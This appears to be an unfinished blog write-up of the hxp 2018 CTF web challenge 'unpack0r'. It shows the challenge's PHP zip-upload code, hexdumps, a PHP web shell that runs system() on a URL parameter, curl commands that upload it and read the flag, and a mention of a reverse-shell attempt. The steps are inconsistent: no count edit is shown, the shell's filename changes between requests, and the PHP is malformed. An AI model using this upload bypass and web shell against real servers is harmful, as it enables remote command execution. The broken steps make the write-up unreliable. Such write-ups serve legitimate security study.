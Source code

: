 ```yaml
---
layout: post
title: unpack0r, h4x0rpsch0rr
category: hxp-2018
---
```

# Description
I could only play hxpCTF during my downtime at Hushcon, but found the challenges extremely engaging and enjoyable. I've split my posts into the crypto challenges and the web challenges. This post is about the web.

NOTE: This is still being written up, sorry for the delay!

# unpack0r
>unpackbar  
>Connection: http://195.201.136.29:8087/

Upon visiting the page, we're presented with what's presumed to be the page source.

```
php
<?php
if (isset($_FILES['zip']) && $_FILES['zip']['size'] < 10*1024 ){
    $d = 'files/' . bin2hex(random_bytes(32));
    mkdir($d) || die('mkdir');
    chdir($d) || die('chdir');

    $zip = new ZipArchive();
    if ($zip->open($_FILES['zip']['tmp_name']) === TRUE) {
        for ($i = 0; $i < $zip->numFiles; $i++) {
            if(preg_match('/^[a-z]+$/', $zip->getNameIndex($i)) !== 1){
                die(':/ security');
            }
        }

        exec('unzip ' . escapeshellarg($_FILES['zip']['tmp_name']));
        echo $d;
    }
}
else {
    highlight_file(__FILE__);
}
```

From the source code, we see that the page supports zip file uploads. I wonder what that looks like - let's test the upload functionality with an empty zip.

```bash
echo 'test' > ota

zip test.zip ota
    adding: ota (stored 0%)

curl http://195.201.136.29:8087 -F zip=@test.zip
    files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761

curl http://195.201.136.29:8087/files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761/ota
    test
```

Incredible! So the contents of the zip file are uploaded to the server and displayed back to us. The attack vector is clear, we need to display either a php pass-through page for bash or a php reverse shell. We'll try both methods below.

From the source, if we are to upload a `.php` file, we must bypass the regex validation. The code performs a regex match for each file in the zip, where it gets the number of files from `$zip->numFiles`. What if we controlled that number? Let's take a hexdump of the following two zips and see if we can notice where this data is stored.

```bash
cp ota ota2

zip test1.zip ota
    adding: ota (stored 0%)

zip test2.zip ota ota2
    adding: ota (stored 0%)

```

```bash
xxd test1.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6A 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 01 02 1E 03 0A 00 00 00
    00 00 7A B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 03
    00 18 00 00 00 00 00 01 00 00 00 A4 81 00 00 00 00 6F 74
    61 55 54 05 00 03 68 7C 20 5C 75 78 0B 00 01 04 F5 01 00
    00 04 14 00 00 00 50 4B 05 06 00 00 00 00 <b>01</b> 00 <b>01</b> 00 49
    00 00 00 42 00 00 00 00 00
```

```bash
xxd test2.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6E 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 03 04 0A 00 00 00 00 00
    7B B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 04 00 1C
    00 6F 74 61 32 55 54 09 00 03 6A 7C 20 5C 6B 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 74 65 73 74 0A
    50 4B 01 02 1E 03 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9
    3B 05 00 00 00 05 00 00 00 03 00 18 00 00 00 00 00 01 00
    00 00 A4 81 00 00 00 00 6F 74 61 55 54 05 00 03 68 7C 20
    5C 75 78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 01
    02 1E 03 0A 00 00 00 00 00 7B B3 97 4D C6 35 B9 3B 05 00
    00 00 05 00 00 00 04 00 18 00 00 00 00 00 01 00 00 00 A4
    81 42 00 00 00 6F 74 61 32 55 54 05 00 03 6A 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 05 06 00
    00 00 00 <b>02</b> 00 <b>02</b> 00 93 00 00 00 85 00 00 00 00 00
```

Right at the end we notice that two values seem unique to each zip; this value represents the number of files in the archive. So if trick the upload code to think that there's only one file, it won't perform a regex check against out php code! Let's give it a shot.

```bash
echo "<?php if(_GET['chai']){ system(_GET['chai']); } ?>" > sh.php

zip ota.zip ota sh.php
    adding: ota (stored 0%)
    adding: sh.php (deflated 22%)

curl http://195.201.136.29:8087 -F zip=@ota.zip
    files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c?chai=ls
    ota
    sh.php
```

Perfect! Now we can go get the flag.

```bash
curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/ota.php\?chai\=ls+/
    bin
    boot
    dev
    etc
    flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/bbb.php\?chai\=cat+/flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    <?php
    'hxp{please_ask_gynvael_for_more_details_on_zips_:>}';
```

Note: We tried a reverse PHP shell (specifically [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)) and it seems the application won't allow reverse connections (as expexted). See output below.
```bash
curl http://195.201.136.29:8087/files/3075a1f1910f2c423d852b164f57856f37b1bdc3fb5834b7ad0a9614c1495d23/rsh.php\
    WARNING: Failed to daemonise.  This is quite common and not fatal.
    Connection refused (111)
```

# h4x0rpsch0rr
>Finally a use case for those internet tingies!
